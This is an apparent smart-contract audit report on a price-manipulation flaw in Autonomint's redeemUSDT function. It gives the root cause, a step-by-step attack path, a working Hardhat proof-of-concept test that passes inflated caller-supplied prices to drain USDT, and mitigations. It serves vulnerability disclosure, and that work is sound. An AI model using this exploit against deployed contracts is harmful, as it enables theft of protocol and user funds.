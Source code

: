 Sneaky Menthol Butterfly

High

# Price Manipulation via User-Provided Prices in redeemUSDT

### Summary

Untrusted user-provided prices in **redeemUSDT** will cause a complete drain of the protocol’s USDT reserves for the protocol and its stakers as an attacker will supply an artificially high **usdaPrice** or low **usdtPrice** and front-run legitimate users.

### Root Cause

In [CDS.sol](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L508-L523) and [CSDLib.sol](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L382-L418), the contract uses caller-supplied **usdaPrice** and **usdtPrice** without any validation or oracle check. This allows an attacker to manipulate the price ratio arbitrarily.

### Internal pre-conditions

- The CDS contract must have a sufficient USDT balance to fulfill redemptions. 
- No validation or price feed check is implemented for usdaPrice and usdtPrice.

### External pre-conditions

_No response_

### Attack Path

1. Attacker calls redeemUSDT(usdaAmount, usdaPrice, usdtPrice) with:
     -usdaPrice artificially inflated (e.g., 1 USDA = $10,000,000).
     -usdtPrice artificially deflated (e.g., 1 USDT = $1).
2. The contract calculates usdtAmount = (usdaPrice * usdaAmount) / usdtPrice, awarding the attacker far more USDT than a fair market price would allow.
3. The attacker repeatedly drains USDT from the contract until there is none left to redeem.

### Impact

The protocol (and indirectly its stakers/treasury) suffers a complete loss of USDT liquidity, as the attacker mints or redeems an excessive amount of USDT from the pool. This leads to:

The attacker gaining large quantities of underpriced USDT.
Legitimate users being unable to redeem for USDT afterward.

### PoC

```typescript
    it("Should illustrate price manipulation vulnerability in redeemUSDT", async function () {
      const {
        CDSContractA,
        TokenA,      // USDA
        usdtA,       // USDT
        globalVariablesA,
        owner,
        user1
      } = await loadFixture(deployer);

      // 1. Mint a large amount of USDT into CDSContractA's treasury,
      //    or deposit USDT from user1 so the contract has USDT liquidity to redeem from.
      //    For demonstration, let's deposit 10_000_000_000 (1e10) USDT via user1 into CDS:
      await usdtA.connect(user1).mint(user1.address, 10_000_000_000n);
      await usdtA.connect(user1).approve(CDSContractA.address, 10_000_000_000n);

      // We'll deposit 10B USDT so the CDS has USDT in its treasury.
      // user1 calls deposit(...) with 10B USDT (and 0 USDA).
      const options = Options
        .newOptions()
        .addExecutorLzReceiveOption(400000, 0)
        .toHex()
        .toString();

      let nativeFee = 0;
      [nativeFee] = await globalVariablesA.quote(1, 0, options, false);

      await CDSContractA.connect(user1).deposit(
        10_000_000_000n, // 10 billion USDT deposit
        0,               // 0 USDA deposit
        false,           // no liquidation
        0,               // liquidation amount
        100000,          // locking period
        { value: nativeFee }
      );

      // 2. Now the contract has USDT. Next we (owner) mint USDA to illustrate the redemption:
      //    We'll mint 1 million USDA to the owner
      await TokenA.mint(owner.address, 1_000_000n);
      // Approve it for redeemUSDT
      await TokenA.connect(owner).approve(CDSContractA.address, 1_000_000n);

      // 3. Use artificially manipulated prices to get more USDT than “fair”
      //    e.g. 1 USDA = 1,500 USD, 1 USDT = 1 USD. 
      //    => For 1 USDA, contract calculates 1,500/1 = 1,500 USDT
      //    => For 1,000,000 USDA, we get 1.5e9 USDT
      const manipulatedUsdaPrice = 1500;  // in your code’s price scale
      const manipulatedUsdtPrice = 1;

      // We'll check the owner's USDT balance before
      const usdtBalBefore = await usdtA.balanceOf(owner.address);

      // 4. Call redeemUSDT with manipulated prices
      const [nativeFee2] = await globalVariablesA.quote(1, 0, options, false);
      await CDSContractA.connect(owner).redeemUSDT(
        1_000_000,                // 1M USDA
        manipulatedUsdaPrice,     // artificially high
        manipulatedUsdtPrice,     // artificially low
        { value: nativeFee2 }
      );

      // 5. Check how much USDT the owner got
      const usdtBalAfter = await usdtA.balanceOf(owner.address);
      const usdtGained = usdtBalAfter - usdtBalBefore;

      console.log(
        `Owner redeemed 1,000,000 USDA with ratio ${manipulatedUsdaPrice}:${manipulatedUsdtPrice}.
         Gained USDT = ${usdtGained.toString()}.`
      );

      // For example, if manipulatedUsdaPrice=1500 and manipulatedUsdtPrice=1,
      // user might get 1.5 billion USDT  

 
      expect(usdtGained).to.be.equal(1_500_000_000n); 
    });

```

### Mitigation

- Require a Trusted Oracle for price data, e.g., Chainlink.
- Validate user-submitted price inputs against on-chain feeds, disallowing large deviations.
- Remove any user-provided pricing fields 